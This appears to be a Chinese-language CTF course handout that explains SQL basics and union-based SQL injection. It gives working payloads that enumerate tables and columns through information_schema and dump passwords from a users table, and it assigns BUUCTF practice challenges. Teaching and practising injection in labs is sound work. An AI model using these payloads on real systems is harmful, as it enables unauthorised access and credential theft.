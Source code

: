 # 数据库
数据库（database）是用来组织、存储和管理数据的仓库。<br />当今世界是一个充满着数据的互联网世界，为了方便管理互联网世界中的数据，就有了数据库管理系统的概念。用户可以对数据库中的数据进行新增、查询、更新、删除等操作。
# SQL
 SQL（Structured Query Language，结构化查询语言）是一种用于管理和操作关系型数据库的标准化编程语言。 <br />基于SQL语言的数据库：MySQL、SQL Server、Access、Oracle、Sybase、DB2等
# MySQL
 MySQL 是最流行的数据库管理系统，在 WEB 应用方面最好的数据库管理应用软件之一
# SQL注入原理
![](https://cdn.nlark.com/yuque/0/2024/jpeg/34908308/1723633959509-226680b9-3059-4f45-896e-ce5648e3aeb8.jpeg)<br /> 当web应用向后台数据库传递SQL语句进行数据库操作时，如果对用户输入的参数没有经过严格的过滤处理，那么攻击者就可以构造特殊的SQL语句，直接输入数据库引擎执行，获取或修改数据库中的数据。  
# 前置语法知识
## 注释符
```
#注释
-- 注释

/*
注释
*/
```
## SELECT
SELECT 语句用于从数据库中选取数据。<br />结果被存储在一个结果表中，称为结果集。
```
-- 选择所有列的所有行
SELECT * FROM users;

-- 选择特定列的所有行
SELECT username, email FROM users;

-- 添加 WHERE 子句，选择满足条件的行
SELECT * FROM users WHERE is_active = TRUE;

SELECT 1,2,3;

-- 显示当前所在数据库
SELECT DATABASE();
```
## ORDER BY
 用于对结果集按照一个列或者多个列进行排序  
```
-- 添加 ORDER BY 子句，按照某列的升序排序
SELECT * FROM users ORDER BY birthdate;

-- 添加 ORDER BY 子句，按照某列的降序排序
SELECT * FROM users ORDER BY birthdate DESC;

SELECT * FROM users ORDER BY 1;
```
## UNION
 UNION 操作符用于连接两个以上的 SELECT 语句的结果组合到一个结果集合
```
SELECT city FROM customers UNION SELECT city FROM suppliers ORDER BY city;
```
## GROUP_CONCAT()
一种聚合函数，可以将满足条件的所有数据聚合到一列显示出来
## information_schema
mysql中自带的数据库，其中统计了这个所有数据库的表名、字段名
# 联合注入
## 数字型注入
注入时输入参数为纯数字
## 字符型注入
注入时输入参数要带引号等

源码：
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

4' LIMIT 0,1
```
payload：
```
# 找列数
id=1' order by 3-- s
id=1' order by 4-- s
# 确定哪个字段有回显
id=-1' union select 1,2,3-- s
# 确定当前数据库
id=-1' union select 1,2,database()-- s
# 爆出当前数据库内的所有表名
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()-- s
# 爆出当前数据库user表的所有列名
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()-- s

id=-1' union select 1,2,group_concat(password) from users-- s
```
# 作业
BUUCTF：

1. [极客大挑战 2019]EasySQL
2. BUU SQL COURSE 1
3. [极客大挑战 2019]LoveSQL

没思路可以参考网上的wp，做了写wp

PDF格式发送到邮箱2457129747@qq.com(8.17号前)
